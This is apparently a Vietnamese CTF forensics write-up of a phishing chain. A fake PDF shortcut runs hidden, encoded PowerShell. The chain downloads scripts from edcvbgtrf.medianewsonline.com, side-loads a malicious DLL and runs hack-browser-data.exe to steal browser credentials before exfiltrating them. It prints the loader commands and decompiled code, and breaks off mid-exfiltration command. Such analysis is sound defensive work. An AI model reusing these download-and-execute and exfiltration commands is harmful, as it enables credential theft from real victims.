# Blindsided
## Description
```
An HR employee reported receiving an email from a job applicant named Aurelio Nadeau containing what looked like a CV and cover letter. The employee says they simply opened the PDF attachment to review the application.

Minutes later the SOC flagged an unusual outbound connection from the workstation. The employee insists:

"I just opened a PDF. I didn't run anything."

Forensic artifacts have been collected from the workstation. Trace the full attack chain — from initial access to exfiltration — and answer the questions.

Evidence: the artifacts are provided as a download with this challenge.
Archive password: infected

- @Abdullah
```
## Phân tích

- Challenge cho 1 tệp pcapng và thư mục Users của máy victim

- Trong thư mục Download của user Patrick chứa 1 tệp double-extension là Aurelio_Nadeau_CV.pdf.lnk , đây là 1 tệp lnk ngụy trang dưới 1 tệp pdf (mặc định đối với tệp nhiều hơn 1 extension, window chỉ hiển thị 1 do đó user sẽ chỉ thấy đuôi pdf trong khi tệp thực sự là lnk). Ngoài ra, tệp zip Aurelio Nadeau.zip giải nén ra 2 tệp là lnk và Cover_letter.pdf.
- lnk là một tệp shortcut trong window, trường Target trong Properties của loại tệp này thường chứa full path tới tệp exe tương ứng của program đích. Tuy nhiên, attacker có thể đặt vào trường Target các câu lệnh độc hại. Sử dụng LECmd để parse tệp lnk này:

- Câu lệnh powershell độc hại được thực thi khi user click vào tệp lnk:
```powershell
powershell.exe -WindowStyle Hidden -NoProfile -nop -ExecutionPolicy Bypass -EncodedCommand JABjAG4AagBhAHMAawBjAG4AcwBqAGsAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBDAG8AbQBPAGIAagBlAGMAdAAgAFMAaABlAGwAbAAuAEEAcABwAGwAaQBjAGEAdABpAG8AbgApAC4ATgBhAG0AZQBTAHAAYQBjAGUAKAAnAHMAaABlAGwAbAA6AEQAbwB3AG4AbABvAGEAZABzACcAKQAuAFMAZQBsAGYALgBQAGEAdABoACAAKwAgACIAXAA4ADEAMgBoAG8AcQBxAC4AcABzADEAIgA7ACQAYQBzAG8AagBtAHMAYQBwAHMAYQBwAG8AIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwAkAGEAcwBvAGoAbQBzAGEAcABzAGEAcABvAC4ARABvAHcAbgBsAG8AYQBkAEYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AZQBkAGMAdgBiAGcAdAByAGYALgBtAGUAZABpAGEAbgBlAHcAcwBvAG4AbABpAG4AZQAuAGMAbwBtADoAOAAwADAAMAAvADgAMQAyAGgAbwBxAHEALgBwAHMAMQAiACwAIAAkAGMAbgBqAGEAcwBrAGMAbgBzAGoAawApADsAIAAmACAAJABjAG4AagBhAHMAawBjAG4AcwBqAGsAOwAgAFIAZQBtAG8AdgBlAC0ASQB0AGUAbQAgACQAYwBuAGoAYQBzAGsAYwBuAHMAagBrADsA
```
- Câu lệnh trên thực thi 1 đoạn powershel bị encode base64 với cửa sổ ẩn, bỏ qua Execution Policy, decode base64:
```powershell
$cnjaskcnsjk = (New-Object -ComObject Shell.Application).NameSpace('shell:Downloads').Self.Path + "\812hoqq.ps1";
$asojmsapsapo = New-Object Net.WebClient;
$asojmsapsapo.DownloadFile("http://edcvbgtrf.medianewsonline.com:8000/812hoqq.ps1", $cnjaskcnsjk); & $cnjaskcnsjk; Remove-Item $cnjaskcnsjk;
``` 
- Đoạn ps trên tải về 812hoqq.ps1 từ hxxp[:\//]edcvbgtrf[.]medianewsonline[.]com:8000/, thực thi trước khi xóa tệp. Export tệp 812hoqq.ps1 từ pcapng:

- Nội dung tệp 812hoqq.ps1 sau khi deobfucate:
```powershell

# lấy đường dẫn thư mục downloads
$a1b2c3 = (New-Object -ComObject Shell.Application).NameSpace("shell:Downloads").Self.Path
# lấy path tới tệp có tên bắt đầu = Cover_letter (Cover_letter.pdf)
$x9y8z7 = Get-Childitem -Path $a1b2c3 -Filter "Cover_letter*" -Recurse  -File  -ErrorAction SilentlyContinue | Select-Object -First 1
if ($x9y8z7){
	# mở tệp Cover_letter.pdf
    Start-Process $x9y8z7.FullName

}
$r7t8y9 = Join-Path $x9y8z7.DirectoryName "Aurelio_Nadeau_CV.pdf.lnk"
# tải về tệp Aurelio_Nadeau_CV.pdf.lnk
Start-Process -FilePath "curl.exe" -ArgumentList @( "-s", "-L", "--output", $r7t8y9, "http://edcvbgtrf.medianewsonline.com:8000/Aurelio_Nadeau_CV.pdf.lnk";) -WindowStyle Hidden -Wait

$p4a5s6 = Join-Path $env:TEMP "Stardock.zip"
# tải về tệp Stardock.zip từ dropbox và đặt trong thư mục temp
$d7f8g9 = Start-Process -FilePath "curl.exe" -ArgumentList @( "-s", "-L", "--output", $p4a5s6, "https://www.dl.dropboxusercontent.com/scl/fi/kkpbmsijwvytuyn4vevxq/Stardock.zip?rlkey=otwecndex77qyzf6n0j73udkq&st=dftviim1&dl=1";) -WindowStyle Hidden -PassThru
Wait-Process -Id $d7f8g9.Id
$h1j2k3 = Join-Path $env:TEMP "Stardock"
Expand-Archive -Path $p4a5s6 -DestinationPath $h1j2k3 -Force
# giải nén Stardock.zip và thực thi WB11Config.exe
$l4m5n6 = Join-Path $h1j2k3 "Stardock\WindowBlinds\WB11Config.exe"
if (-not(Test-Path $l4m5n6)){
    $l4m5n6 = (Get-Childitem -Path $h1j2k3 -Filter "WB11Config.exe" -Recurse  -File  -ErrorAction SilentlyContinue | Select-Object -First 1).FullName
}
if ($l4m5n6){
    Start-Process $l4m5n6
}
```
- Phân tích WB11Config.exe:



- Tuy nhiên, check tệp với DIE ta thấy tệp có chữ ký hợp lệ và kết quả từ virustotal cũng không cho thấy dấu hiệu độc hại. Tuy nhiên, có thể WB11Config.exe nạp vào tệp Dll độc hại được tải về kèm theo trong tệp zip (đây là kĩ thuật DLL Side-Loading, trong đó, một program exe vô hại nạp và thực thi một Dll độc hại), kiểm tra chữ kỹ các tệp dll trong cùng thư mục:

- Tệp wblindp2.dll:

- Phân tích wblindp2.dll:
```cpp
BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  if ( fdwReason == 1 )
  {
    DisableThreadLibraryCalls(hinstDLL);
    CreateThread(0, 0, StartAddress, hinstDLL, 0, 0);
  }
  return 1;
}
```
- Trong DllMain, malware tạo 1 thread mới bắt đầu thực thi tại address StartAddress với 1 tham số là handle tới Dll hiện tại.
```cpp
memset(fullPathToExe, 0, sizeof(fullPathToExe));
  GetModuleFileNameA(0, fullPathToExe, 0x104u);
  currChar = fullPathToExe[0];
  filename_3 = fullPathToExe;
  filename = fullPathToExe;
  iterPtr = fullPathToExe;
  if ( fullPathToExe[0] )
  {
    do                                          // tìm dấu \ cuối cùng trong path
    {
      ptr4 = ++iterPtr;
      if ( currChar != '\\' )
        ptr4 = filename_3;
      filename_3 = ptr4;
      currChar = *iterPtr;
    }
    while ( *iterPtr );
    filename = ptr4;
  }
  filename_2 = *filename_3;
  num = 0;
```
- Trước tiên malware gọi GetModuleFileNameA với tham số đầu tiên = NULL để lấy đường dẫn của executable của tiến trình hiện tại, vòng lặp sau đó tìm dấu \ cuối cùng để trỏ tới tên tệp thực thi, các biến bắt đầu bằng filename_* trỏ tới chuỗi chứa tên tệp thực thi hiện tại
```cpp
ProcessInformation.hProcess = (HANDLE)"msedge.exe";
  ProcessInformation.hThread = (HANDLE)"explorer.exe";
  ProcessInformation.dwProcessId = (DWORD)"rundll32.exe";
  while ( 1 )
  {
    msedgeExe = (char *)*((_DWORD *)&ProcessInformation.hProcess + num);
    Filename_5 = filename_3;                    // các biến filename_* trỏ tới tên tệp exe đang thực thi
    if ( filename_2 )
    {
      do // so sánh chuỗi ko phân biệt hoa/thường
      {
        chr_msedgeExe = *msedgeExe;
        if ( !*msedgeExe )
          break;
        chr_currExeName = *Filename_5 + 32;
        if ( (unsigned __int8)(*Filename_5 - 65) > 25u )
          chr_currExeName = *Filename_5;
        if ( (unsigned __int8)(chr_msedgeExe - 65) <= 25u )
          chr_msedgeExe += 32;
        if ( chr_currExeName != chr_msedgeExe )
          goto filenameNotMatch;
        ++Filename_5;
        ++msedgeExe;
      }
      while ( *Filename_5 );
    }
    if ( *Filename_5 == *msedgeExe )
      break;
filenameNotMatch:
    filename_3 = filename;
    if ( ++num >= 3 )
    {
      memset(currDllPath, 0, sizeof(currDllPath));
      if ( GetModuleFileNameA(handleCurrentDll, currDllPath, 0x104u) )// chạy dll hiện tại với rundll32.exe, gòi hàm export RunNow
      {
        memset(String1, 0, sizeof(String1));
        lstrcpyA(String1, "rundll32.exe \"");
        lstrcatA(String1, currDllPath);
        lstrcatA(String1, "\",RunNow");
        StartupInfo.cb = 68;
        memset(&StartupInfo.lpReserved, 0, 0x40u);
        ProcessInformation = 0;
        if ( CreateProcessA(0, String1, 0, 0, 0, CREATE_NO_WINDOW, 0, 0, &StartupInfo, &ProcessInformation) )
        {
          if ( ProcessInformation.hThread )
            CloseHandle(ProcessInformation.hThread);
          if ( ProcessInformation.hProcess )
            CloseHandle(ProcessInformation.hProcess);
          return 0;
        }
      }
executeRunNowFunc:
      RunNow_0();
      return 0;
    }
  }
```
- malware lần lượt so sánh tên tệp thực thi hiện hại với 3 chuỗi là msedge.exe, explorer.exe và rundll32.exe, nếu ko trùng với 1 trong 3 (biến num = 3) thì malware lấy path của Dll hiện tại (ở đây là wblindp2.dll), thực thi với commandline "rundll32.exe ...\wblindp2.dll,RunNow". Nếu thực thi thành công thì CloseHandle và return 0, còn không,  gọi hàm RunNow_0(). Ngoài ra, hàm RunNow_0() được gọi khi hàm export RunNow() chạy:
```cpp
// attributes: thunk
void __cdecl RunNow()
{
  RunNow_0();
}
```


```cpp
 memset(lpFilename, 0, sizeof(lpFilename));
  GetModuleFileNameA(0, lpFilename, 0x104u);
  n92 = lpFilename[0];
  lpFilename_1 = lpFilename;
  lpFilename_2 = lpFilename;
  if ( lpFilename[0] )
  {
    do
    {
      lpFilename_3 = ++lpFilename_2;
      if ( n92 != '\\' )
        lpFilename_3 = lpFilename_1;
      lpFilename_1 = lpFilename_3;
      n92 = *lpFilename_2;
    }
    while ( *lpFilename_2 );
    n92 = *lpFilename_3;
  }
  rundll32.exe = "rundll32.exe";
  if ( n92 )
  {
    do                                          // nếu match 1 trong 3 chuỗi trên, ktra xem có match rundll32.exe ko
    {
      v16 = *rundll32.exe;
      if ( !*rundll32.exe )
        break;
      v17 = *lpFilename_1 + 32;
      if ( (unsigned __int8)(*lpFilename_1 - 65) > 0x19u )
        v17 = *lpFilename_1;
      if ( (unsigned __int8)(v16 - 65) <= 0x19u )
        v16 += 32;
      if ( v17 != v16 )                         // nếu ko, thực thi hàm RunNow
        goto executeRunNowFunc;
      ++lpFilename_1;
      ++rundll32.exe;
    }
    while ( *lpFilename_1 );
  }
  if ( *lpFilename_1 != *rundll32.exe )
    goto executeRunNowFunc;
  return 0;                                     // nếu có, return 0
}
```
- Nếu tên tệp thực thi hiện tại match 1 trong 3 chuỗi trên, malware kiểm tra xem nếu là rundll32.exe thì return 0 ngay lập tức (có thể malware đang detect việc bị phân tích động hay debug bằng cách chạy trực tiếp rundll32.exe tham số là dll độc hại) còn ko, thực thi hàm RunNow_0.
- Phân tích hàm RunNow_0():
```cpp
  param = param_1;
  size = 63;
  *(_OWORD *)url = 0;
  http:__edcvbgtrf.medianewsonline.com:8000_hack_browser_data.exe = fnAllocateMem((int)url, &size);
  n63_1 = size;
  url[0] = http:__edcvbgtrf.medianewsonline.com:8000_hack_browser_data.exe;
  strcpy(
    (char *)http:__edcvbgtrf.medianewsonline.com:8000_hack_browser_data.exe,
    "http://edcvbgtrf.medianewsonline.com:8000/hack-browser-data.exe");
  n63_2 = 63;
  v67 = 0;
  fnGetTempPath(tempPath);
  LOBYTE(v67) = 1;
  if ( 0x7FFFFFFF - Size < 0x15 )
    fnErrorStringTooLong();
  tempPathLen = tempPath;
  if ( n0xF > 0xF )
    tempPathLen = (void **)tempPath[0];
  fnConcat(targetOutputPath, param, (int)tempPath, tempPathLen, Size, "hack-browser-data.exe", 21u);
  LOBYTE(v67) = 2;
  if ( 0x7FFFFFFF - v66[0] < 0xC )
    fnErrorStringTooLong();
  targetOutputPath_1 = targetOutputPath;
  if ( v66[1] > 0xF )
    targetOutputPath_1 = (LPCSTR *)targetOutputPath[0];
  fnConcat(curlCommand, param, (int)targetOutputPath, "curl -s -o \"", 0xCu, targetOutputPath_1, v66[0]);
  LOBYTE(v67) = 3;
  command = fnAppendStr(curlCommand, "\" \"", 3u);
  v52 = 0;
  *(_OWORD *)param_2 = 0;
  *(_OWORD *)param_2 = *(_OWORD *)command;
  v52 = *((_QWORD *)command + 2);
  command[4] = 0;
  command[5] = 15;
  *(_BYTE *)command = 0;
  param_3 = url;
  if ( size > 0xF )
    param_3 = (void **)url[0];
  LOBYTE(v67) = 4;
  appended = fnAppendStr(param_2, param_3, 0x3Fu);
  v54 = 0;
  *(_OWORD *)param_7 = 0;
  *(_OWORD *)param_7 = *(_OWORD *)appended;
  v54 = *((_QWORD *)appended + 2);
  appended[4] = 0;
  appended[5] = 15;
  *(_BYTE *)appended = 0;
  LOBYTE(v67) = 5;
  v7 = fnAppendStr(param_7, "\"", 1u);
  v64 = 0;
  *(_OWORD *)lpCmdLine = 0;
  *(_OWORD *)lpCmdLine = *(_OWORD *)v7;
  v64 = *((_QWORD *)v7 + 2);
  v7[4] = 0;
  v7[5] = 15;
  *(_BYTE *)v7 = 0;
  LOBYTE(v67) = 7;
  if ( HIDWORD(v54) > 0xF )
  {
    v8 = param_7[0];
    if ( (unsigned int)(HIDWORD(v54) + 1) >= 0x1000 )
    {
      v8 = (void *)*((_DWORD *)param_7[0] - 1);
      if ( (unsigned int)((char *)param_7[0] - (char *)v8 - 4) > 0x1F )
        goto LABEL_95;
    }
    free_wrp(v8);
  }
  v54 = 0xF00000000LL;
  LOBYTE(param_7[0]) = 0;
  LOBYTE(v67) = 8;
  if ( HIDWORD(v52) > 0xF )
  {
    v9 = param_2[0];
    if ( (unsigned int)(HIDWORD(v52) + 1) >= 0x1000 )
    {
      v9 = (void *)*((_DWORD *)param_2[0] - 1);
      if ( (unsigned int)((char *)param_2[0] - (char *)v9 - 4) > 0x1F )
        goto LABEL_95;
    }
    free_wrp(v9);
  }
  v52 = 0xF00000000LL;
  LOBYTE(param_2[0]) = 0;
  LOBYTE(v67) = 9;
  if ( n0xF_1 <= 0xF )
    goto LABEL_21;
  v10 = curlCommand[0];
  if ( n0xF_1 + 1 >= 0x1000 )
  {
    v10 = (void *)*((_DWORD *)curlCommand[0] - 1);
    if ( (unsigned int)((char *)curlCommand[0] - (char *)v10 - 4) > 0x1F )
LABEL_95:
      _invalid_parameter_noinfo_noreturn();
  }
  free_wrp(v10);
LABEL_21:
  lpCmdLine_1 = (const CHAR *)lpCmdLine;
  if ( HIDWORD(v64) > 0xF )
    lpCmdLine_1 = lpCmdLine[0];
  curlCommand[4] = 0;
  n0xF_1 = 15;
  LOBYTE(curlCommand[0]) = 0;
```
- Toàn bộ phần code ở đầu hàm này thực hiện construct một str commandline đó là: "curl -s -o \"C:\\Users\\Patrick\\AppData\\Local\\Temp\\hack-browser-data.exe\" \"http://edcvbgtrf.medianewsonline.com:8000/hack-browser-data.exe\""
```cpp
if ( WinExec(lpCmdLine_1, 0) > 0x1F )
  {
    Sleep(0xFA0u);
    lpFileName_2 = (const CHAR *)&targetOutputPath;
    if ( v67[1] > 0xF )
      lpFileName_2 = (const CHAR *)targetOutputPath._ptr;
    if ( GetFileAttributesA(lpFileName_2) != -1 )// check xem tệp hack-browser-data.exe có tải về thành công hay ko
    {
      param_4 = param;
      v14 = HIDWORD(v65);
      n15 = 15;
      v16 = HIDWORD(v65) <= 0xF;
      *(_OWORD *)param = 0;
      *(_DWORD *)(param_4 + 16) = 0;
      targetOutputPath_2 = targetOutputPath;
      *(_DWORD *)(param_4 + 20) = 0;
      LOBYTE(targetOutputPath._ptr) = 0;
      *(std_string *)param_4 = targetOutputPath_2;
      *(_QWORD *)(param_4 + 16) = *(_QWORD *)v67;
      v67[0] = 0;
      v67[1] = 15;
      goto LABEL_28;
    }
  }
```
- Sau đó gọi winapi WinExec để thực thi lệnh curl trên
```cpp
if ( 0x7FFFFFFF - n63_2 < 0x49 )
    fnErrorStringTooLong();
  param_5 = url;
  if ( n63_1 > 0xF )
    param_5 = (void **)url[0];
  fnConcat(
    param_6,
    param,
    (int)url,
    "powershell.exe -ExecutionPolicy Bypass -Command \"Invoke-WebRequest -Uri '",
    0x49u,
    param_5,
    n63_2);
  LOBYTE(v68) = 10;
  v24 = fnAppendStr(param_6, "' -OutFile '", 0xCu);
  v49 = 0;
...
  if ( WinExec(lpCmdLine_2, 0) <= 0x1F )
```
- Nếu curl không thành công malware chuyển sang dùng powershell với lệnh: "powershell.exe -ExecutionPolicy Bypass -Command \"Invoke-WebRequest -Uri 'http://edcvbgtrf.medianewsonline.com:8000/hack-browser-data.exe' -OutFile 'C:\\Users\\Patrick\\AppData\\Local\\Temp\\hack-browser-data.exe'\"", ta sẽ đặt tên hàm này là fnDownloadHackBrowserExe
```cpp
  fnExecuteHackBrowserExe();
  Sleep = ::Sleep;
  ::Sleep(3000u);
  fnCollectAndEncryptData();
  ::Sleep(2000u);
  fnExfilAndCleanUp();
  ::Sleep(2000u);
  pe.dwSize = 296;
  memset(&pe.cntUsage, 0, 0x124u);
```
- Tiếp theo, malware lần lượt gọi 3 hàm:
1. fnExecuteHackBrowserExe(): Tạo thư mục hbdata và thực thi
"C:\\Users\\Patrick\\AppData\\Local\\Temp\\hack-browser-data.exe\" -b all -c all -f json -d \"C:\\Users\\Patrick\\AppData\\Local\\Temp\\hbdata\"

2. fnCollectAndEncryptData(): thu thập 1 số thông tin và encrypt data thu thập được
  Hàm fnEncryptData chứa encrypt data thu thập được với key generate ra từ tham số thứ 2 truyền vào hàm:

  Debug malware cho ta biết data được truyền vào:

  Tham số thứ 1 bao gồm data mà malware thu thập được:
```
========== System Info ==========
Computer: DESKTOP-9000IVS
User:     flarevm

Network adapters (up):
  Adapter: Ethernet0
    MAC: 00-0C-29-68-73-92
    IPv6: fe80::614:18b6:4026:43c5
    IPv4: 192.168.10.129

  Adapter: Loopback Pseudo-Interface 1
    MAC: 
    IPv6: ::1
    IPv4: 127.0.0.1


==================================

Desktop files:
  (No files or access denied)


Total files: 0

========== END OF COLLECTION ==========

```
  Tham số thứ 2 là 1 chuỗi có dạng: \<username\>:<IP\>
3. fnExfilAndCleanUp(): thực hiện exfiltrate data thu thập được và cleaup xóa dấu vết. Malware tạo 1 tiến trình powershell để exfiltrate với commandline như sau:
```powershell
&"powershell.exe -NoProfile -ExecutionPolicy Bypass -Command \"
$f=Get-Item -LiteralPath 
# tệp flarevm_192.168.10.129.txt chứa dữ liệu mã hóa từ fnEncryptData
'C:\\Users\\flarevm\\AppData\\Local\\Temp\\flarevm_192.168.10.129.txt';$h=[Net.Http.HttpClient]::new();
